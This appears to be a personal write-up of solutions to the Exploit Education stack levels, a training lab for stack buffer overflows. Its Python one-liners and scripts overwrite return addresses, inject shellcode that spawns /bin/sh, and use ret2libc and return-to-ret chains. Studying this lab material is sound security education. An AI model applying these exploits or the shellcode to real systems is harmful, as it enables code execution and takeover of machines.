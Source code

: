 ```yaml
---
title: exploit education stack levels
date: 2020-03-23
---
```


# stack0:
The buffer size is 64 wide. if we write 4 bytes pass the buffer
we can change the `modified` var.

``` python -c " print 'A' * (64 + 4)" | stack0 ```


# stack1:
The buffer size is 64 wide. if we write 4 bytes pass the buffer
we can change the `modified` var to the specified hex.

```./stack1 $(python -c " print 'A' * 64 + 'dcba'") ```


# stack2:
The buffer size is 64 wide. if we write 4 bytes pass the buffer
we can change the `modified` var to the specified hex.

```
export GREENIE="`echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n\r\n\r"`"
./stack2 
```


# stack3:
The buffer size is 64 wide. if we write 4 bytes pass the buffer
we can change the function pointer to point to our function

``` python -c "print ('A' * 64) + '\x24\x84\x04\x08'" | ./stack3 ```


# stack4:
This time we have to overwrite the return address to call win.
when glibc calls main, the call instruction push the address of the next
instruction on the stack to return to after main finish.
inside main we have a buffer of size 64. since there's not much memory
allocation happening, we just need to overwrite the buffer and old ebp
on the stack and the return address (overwrite the return address with address of `win` func).

The buffer size is 64 wide. if we write 4 bytes pass the buffer 
we overwrite the old ebp and 4 bytes more to overwrite the return address
with our `win` function address.

```python -c "print 'A' * 76 + '\xf4\x83\x04\x08' " | ./stack4 ```



# stack5:
This time we have to overwrite the return address to call execute shellcode.
when glibc calls main, the call instruction push the address of the next
instruction on the stack to return to after main finish.
we just need to overwrite the return address on the stack with an adress to return to.
then inject our code and point the return adress to the start of our code
we use nop instruction to help us add padding to the stack in case we need padding
The `\xCC` opcode is for debuging (it makes your program execute 1 instruction at a time)

The buffer size is 64 wide. if we write 4 bytes pass the buffer 
we overwrite the old ebp and 4 bytes more to overwrite the return address
with our `win` function address.

```
# put the shell code between the padding 
# nop_slide = "\x90" * 44  
# eip = "\xa0\xf7\xff\xbf"
# print nop_slide + "\xCC" * 32 + eip * 4
# print nop_slide + shell_code + eip * 8

# -------------------

# put the shell code at the end
padding = "A" * 76
eip = "\xc0\xf7\xff\xbf"
nop_slide = "\x90" * 4
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"  
print padding + eip + nop_slide + shell_code
`$> (python script; cat) | ./stack5`
```


# stack6:
Similer to the previouse level. but this time we can't return to the stack.
however, we still can control the ret pointer. 
One approch to solve this level is ret2libc

Approch: ret2libc
This approch says that we need to return to some useful function in libc.
so, we can use (system) function to help us execute a shell.
`To find system, run the binary in gdb, break on main and x/ system`
second, we need `/bin/sh` string to pass to system. use strings to
find strings in libc and grep for /bin/sh.
`strings -t x /lib/libc.so` this will return the offset of /bin/sh
then in gdb add the offset to address of libc. to find the address
of libc `info proc map`

Our stack will look like this:
STACK 
ret -> address of system (ret of getpath func)
ret -> address to return to when system finish
arg -> address of /bin/sh

```
padding = "A" * 0x50
system  = struct.pack("I", 0xb7ecffb0)
ret     = "AAAA"
bin_sh  = struct.pack("I", 0xb7fb63bf)

print padding + system + ret + bin_sh
`$> (python script; cat) | ./stack6`
```

Approch: return to return pointer

This approch is a little confusing. what return to return pointer means is
instead of providing a stack address to return to, we could provide the return
address to return to and then slide down to a stack address.

for example, we overwrite the return address with the address of 
return instruction. when our function returns, it's going to pop the return
address and jump to it which in that case is the return instruction itself.
we could continue doing that and provide an stack address at the end to jump to
where we have our shell code.

```
ret_instruction_addr    = struct.pack("I", 0x080484f9) * 0x50
stack_addr              = struct.pack("I", 0xbffff8ec)
nop_slid                = "\x90" * 0x50
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print ret_instruction_addr + stack_addr + nop_slid + shell_code

`$> (python script; cat) | ./stack6`
```



# stack7:
This one is similer to the previouse one but this time you can't return to libc.
however, we still can return to the address of our return instruction in getpath.
since we have seen how to do that alread, this time, I want to return to address
of return instruction but instead of executing shell code, I want to call libc
`system` function.

one thing I want to say is we don't have to return to address of getpath return
we could return to other return instruction address inside our `.text section.


```
buffer = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
buffer += struct.pack("I", 0x08048544) # address of getpath ret instruction
buffer += struct.pack("I", 0xb7ecffb0) # address of system
buffer += "AAAA" # return address after system func
buffer += struct.pack("I", 0xb7fb63bf) # address of /bin/sh

print buffer
```


